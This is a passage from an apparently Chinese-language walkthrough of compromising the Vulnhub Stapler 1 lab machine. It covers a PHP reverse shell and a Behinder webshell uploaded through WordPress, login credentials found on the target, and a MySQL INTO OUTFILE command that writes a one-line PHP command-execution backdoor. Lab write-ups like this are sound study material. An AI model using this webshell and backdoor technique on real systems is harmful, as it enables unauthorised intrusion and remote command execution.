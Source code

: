 同样地，在 /blogblog/wp-content/uploads/ 目录下，发现 php-reverse-shell.php 脚本文件，点击后发现靶机的 shell 已反弹至 Kali Linux 的 1234 端口：

![nc_listening_1234_php_getshell](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/nc_listening_1234_php_getshell.png)

至此，已获取靶机 www-data 系统用户的 shell，也说明 WordPress 是通过 **www-data** 用户启动的。

## 文件上传冰蝎 Webshell

由于 Kali Linux 2020.4 系统自带的 JDK 版本为 11.0.9，无法直接启动 [**Behinder_v3.0_Beta_11**](https://github.com/rebeyond/Behinder/releases/tag/Behinder_v3.0_Beta_11) 版本的 jar 包客户端。因此，本节操作将在 Windows 10 操作系统上，使用1.8.0 版本的 JDK 启动并演示。

打开冰蝎目录下的 server/shell.php 脚本文件，可见其默认连接密码为 **rebeyond**。随后，还是通过插件上传页面，将冰蝎 PHP Webshell 上传至 /blogblog/wp-content/uploads/ 目录下：

![behinder_upload_shell](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/behinder_upload_shell.png)

使用 java 工具启动冰蝎客户端，右击表格空包处新增 shell，填入 Webshell 上传后的访问路径，及其连接密码 rebeyond：

```powershell
java -jar .\Behinder.jar
```

![behinder_new_shell](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/behinder_new_shell.png)

新增 shell 后，右击打开，成功弹出 Webshell 管理窗口，获取到靶机 www-data 系统用户的 shell：

![behinder_get_shell](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/behinder_get_shell.png)

## MySQL 写入命令执行函数

先使用 elly 用户名与 ylle 口令登录 FTP 服务，下载 Apache 配置文件 apache2/sites-available/default-ssl.conf 文件后，发现其 HTTPS 服务的根路径为 **/var/www/https**，具体请参考：

> [How To Create a Self-Signed SSL Certificate for Apache in Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04)

![get_default_ssl](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/get_default_ssl.png)

再使用 root 用户名与 plbkac 口令登录 MySQL，在 WordPress 服务的 /blogblog/wp-content/uploads/ 目录下，写入带有 PHP 命令执行函数的后门文件 **exec.php**：

```mysql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/exec.php";
```

![mysql_select_info_outfile](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/mysql_select_info_outfile.png)

尝试通过 `cmd=id` 参数访问该文件，发现确实能够返回 `id` 系统命令的执行结果：

![https_12380_blogblog_exec_id](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Vulnhub_Stapler_1/https_12380_blogblog_exec_id.png)

接下来，使用 nc 工具监听 Kali Linux 的 1234 端口，再通过 `cmd` 参数传入 Python 反弹 shell，命令执行后，成功获取到靶机 www-data 系统用户的 shell：
